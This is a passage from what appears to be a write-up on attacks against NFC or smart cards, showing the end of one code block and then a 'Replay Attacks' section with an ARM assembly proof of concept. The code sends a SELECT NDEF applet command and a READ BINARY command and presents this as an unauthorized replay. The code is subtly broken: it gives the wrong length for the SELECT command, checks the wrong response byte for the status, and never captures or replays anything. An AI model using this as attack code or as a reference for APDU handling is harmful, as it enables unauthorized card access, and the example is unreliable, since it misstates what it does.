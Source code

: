 ```assembly

    mov pc, lr                   ; Return from function
```

## 4. Replay Attacks

### Overview
A replay attack involves capturing legitimate APDU commands and replaying them to perform unauthorized actions.

### PoC Code

```assembly
.section .data
    select_ndef_applet: .byte 0x00, 0xA4, 0x04, 0x00, 0x07, 0xD2, 0x76, 0x00, 0x00, 0x85, 0x01, 0x01, 0x00
    read_data_command: .byte 0x00, 0xB0, 0x00, 0x00, 0x10  ; Read 16 bytes from the beginning
    response_buffer: .space 256
    apdu_length: .word 5

.section .bss
    ldr_buffer: .space 256

.section .text
.global _start

_start:
    bl initialize
    ldr r0, =select_ndef_applet  ; Load address of APDU command
    ldr r1, =response_buffer     ; Load address of response buffer
    ldr r2, =apdu_length         ; Load length of APDU command
    bl send_apdu                 ; Call send_apdu function

    ; Check the response
    ldr r3, =response_buffer
    ldrb r4, [r3]                ; Load the first byte of the response
    cmp r4, #0x90                ; Check if the response is 0x90 (successful execution)
    bne error                    ; If not, branch to error

    ; Replay read data command
    ldr r0, =read_data_command   ; Load address of APDU command for reading data
    ldr r2, =apdu_length         ; Load length of APDU command
    bl send_apdu                 ; Call send_apdu function

    ; Check the response
    ldr r3, =response_buffer
    ldrb r4, [r3]                ; Load the first byte of the response
    cmp r4, #0x90                ; Check if the response is 0x90 (successful execution)
    bne error                    ; If not, branch to error

    ; Process the read data (e.g., store it, analyze it, etc.)

    ; Exit program
    mov r7, #1
    svc 0

error:
    ; Handle error
    ; Exit with error code
    mov r7, #1
    mov r0, #1
    svc 0
```